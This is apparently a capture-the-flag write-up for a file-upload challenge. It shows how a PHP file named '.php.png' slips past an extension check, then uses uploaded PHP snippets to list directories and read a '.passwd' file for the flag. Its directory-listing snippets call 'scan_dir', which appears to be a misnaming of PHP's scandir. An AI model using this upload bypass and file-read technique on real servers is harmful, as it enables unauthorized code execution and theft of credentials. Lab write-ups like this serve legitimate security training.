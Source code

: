 # Challenge19: File upload - Double extensions

## Solution:

    1. Based on challenge title, we can execute our code stored in image extension file.
    
    2. How about uploading a file ".php.png" with:
```php
<?php
echo "Hello World";
?>
```
    3. You can check and it will display "Hello World" after clicking the uploaded link.

    4. So now, how can we read ".passwd" file ?

        + First, find where ".passwd" file is
        + Second, read it

    5. So now you can create multiple file for "listdir" cmd :))
```php
<?php
print_r(scan_dir("./"));
?>

```
```php
<?php
print_r(scan_dir("../"));
?>

```
```php
<?php
print_r(scan_dir("../../"));
?>

```
```php
<?php
print_r(scan_dir("../../../"));
?>

# .passwd in this folder ;)
```
    6. After find out where is it, read it;
```php
<?php
echo file_get_contents("../../../.passwd")
?>
```
    7. Get and submit the flag :)
